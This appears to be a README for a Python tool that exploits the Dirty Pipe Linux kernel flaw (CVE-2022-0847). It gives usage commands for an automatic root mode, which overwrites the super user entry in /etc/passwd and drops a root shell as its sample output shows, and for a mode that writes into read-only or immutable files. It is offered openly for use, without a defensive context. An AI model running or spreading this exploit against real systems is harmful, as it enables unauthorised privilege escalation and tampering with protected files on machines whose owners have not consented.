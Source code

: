 # Dirty Pipe automatic root exploit (CVE-2022-0847)

![eae](assets/poc.gif)

## Dependencies:
- **Python 3.10 or above**

## How to use:
### Automatic root:
```
$ python3.10 dirtyPipe.py -a
[+] hjacking super user in /etc/passwd
[+] dropipng shell
#  
```

### Write a no write permission, immutable or read-only mounted file:
```
$ python3.10 dirtyPipe.py -e FILE OFFSET DATA
```

#### An oferring from [**@terabitSec 🦜**](https://t.me/terabitSec).
